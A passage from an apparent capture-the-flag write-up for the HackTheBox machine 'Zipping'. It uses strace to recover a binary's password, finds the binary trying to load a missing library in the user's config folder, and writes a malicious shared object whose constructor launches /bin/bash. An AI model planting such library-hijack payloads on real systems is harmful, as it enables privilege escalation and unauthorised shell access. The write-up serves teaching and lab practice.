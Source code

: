     
    write(1, "Enter the password: ", 20Enter the password: )    = 20
    read(0, 0xdf
    "0xdf\n", 1024)                 = 5
    write(1, "Invalid password, please try aga"..., 36Invalid password, please try again.
    ) = 36
    exit_group(1)                           = ?
    +++ exited with 1 +++
    

There I enter “0xdf” and see the `write` call showing it failed.

If I try `strace` with the correct password, I’ll notice something interesting
just after:

    
    
    write(1, "Enter the password: ", 20Enter the password: )    = 20
    read(0, St0ckM4nager
    "St0ckM4nager\n", 1024)         = 13
    openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
    write(1, "\n================== Menu ======="..., 44
    ================== Menu ==================
    ) = 44
    write(1, "\n", 1
    )                       = 1
    write(1, "1) See the stock\n", 171) See the stock
    )      = 17
    write(1, "2) Edit the stock\n", 182) Edit the stock
    )     = 18
    write(1, "3) Exit the program\n", 203) Exit the program
    )   = 20
    write(1, "\n", 1
    )                       = 1
    write(1, "Select an option: ", 18Select an option: )      = 18
    read(0,
    

Before it prints the menu, it attempts to load
`/home/rektsu/.config/libcounter.so`, but fails because that file doesn’t
exist.

### Malicious SO

If I can create a malicious shared object (library) in that location, it will
be loaded by the binary. Any code I put into a constructor will be executed.
I’ve shown this before, most recently with [Broker](/2023/11/09/htb-
broker.html#create-so).

I’ll write a simple C file:

    
    
    rektsu@zipping:/home/rektsu/.config$ cat libcounter.c 
    #include <stdlib.h>
    __attribute__ ((__constructor__))
    void shell(void){
        system("/bin/bash");
    }
    